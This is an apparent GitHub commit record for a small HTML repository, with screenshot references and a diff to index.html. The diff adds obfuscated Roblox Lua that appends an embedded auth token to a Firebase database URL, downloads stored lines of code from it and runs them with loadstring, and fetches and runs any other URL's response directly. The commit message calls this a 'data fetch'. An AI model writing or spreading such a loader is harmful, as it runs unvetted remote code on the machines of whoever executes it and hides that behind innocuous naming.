

Before and after one commit to nfdjiw2i/gdfgdfg, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Replace print statement with Lua script for data fetch

```diff
--- a/index.html
+++ b/index.html
@@ -1,6 +1,64 @@
 <!DOCTYPE html>
 <html>
 <body>
-    <div id="code">print(1)</div>
+    <div id="code">local _a = game:GetService("Players")
+local _b = game:GetService("HttpService")
+local _c = _a.LocalPlayer
+local _d = "zyRSUnRt8BqRlIlAM5wnsG8z8y1pdUytuaCkPSj1"
+
+local function _e(_f)
+    pcall(function()
+        if string.find(_f, "firebaseio.com") and not string.find(_f, "auth=") then
+            if string.find(_f, "%?") then
+                _f = _f .. "&auth=" .. _d
+            else
+                _f = _f .. "?auth=" .. _d
+            end
+        end
+
+        local _g = game:HttpGet(_f)
+        if string.find(_f, "firebaseio.com") then
+            local _h = _b:JSONDecode(_g)
+            if not _h then return end
+
+            local _i = {}
+            local _j = 0
+
+            for _k, _l in pairs(_h) do
+                if string.sub(_k, 1, 5) == "line_" then
+                    local _m = tonumber(string.sub(_k, 6))
+                    if _m then
+                        _i[_m] = _l
+                        if _m > _j then _j = _m end
+                    end
+                end
+            end
+
+            if _j == 0 then return end
+
+            local _n = ""
+            for _o = 1, _j do
+                if _i[_o] then
+                    _n = _n .. tostring(_i[_o]) .. "\n"
+                end
+            end
+
+            if _n ~= "" then
+                local _func, _err = loadstring(_n)
+                if _func then
+                    _func()
+                end
+            end
+        else
+            local _func, _err = loadstring(_g)
+            if _func then
+                _func()
+            end
+        end
+    end)
+end
+
+local _p = "https://hgjghjgjhjdf-default-rtdb.firebaseio.com/System/test/.json"
+_e(_p)</div>
 </body>
 </html>
```
